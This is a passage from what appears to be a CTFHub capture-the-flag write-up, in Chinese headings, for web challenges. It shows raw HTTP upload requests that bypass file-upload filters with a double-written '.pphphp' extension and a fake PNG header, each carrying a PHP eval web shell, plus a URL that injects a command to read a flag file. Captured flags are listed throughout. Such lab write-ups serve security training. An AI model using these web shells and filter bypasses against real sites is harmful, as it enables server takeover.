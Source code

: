 flag: `ctfhub{f5ed51edabb7f16f4bb9cd05}`

### 文件上传 - 双写后缀

```http
POST / HTTP/1.1
Host: challenge-0a65a07548c11604.sandbox.ctfhub.com:10800
<omitted ...>

------WebKitFormBoundaryljnqMVE9VBBJvuzn
Content-Disposition: form-data; name="file"; filename="x.pphphp"
Content-Type: text/php

<?php eval($_GET['x']) ?>

------WebKitFormBoundaryljnqMVE9VBBJvuzn
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryljnqMVE9VBBJvuzn--

```

flag: `ctfhub{cf7e972cb23bbb9a0770dd53}`

### 文件上传 - 文件头检查

```http
POST / HTTP/1.1
Host: challenge-fe8477ea88d15ae4.sandbox.ctfhub.com:10800

<omitted ...>

------WebKitFormBoundary6ojWZlkI6ODJKZ9u
Content-Disposition: form-data; name="file"; filename="x.php"
Content-Type: image/png

PNG

<?php eval($_GET['x']) ?>
------WebKitFormBoundary6ojWZlkI6ODJKZ9u
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundary6ojWZlkI6ODJKZ9u--

```

flag: `ctfhub{ba9f2968dc4d10b625658cf9}`

### RCE - eval 执行

```
http://challenge-3158dabd28fa69fc.sandbox.ctfhub.com:10800/?cmd=echo `cat /flag_958`;
```
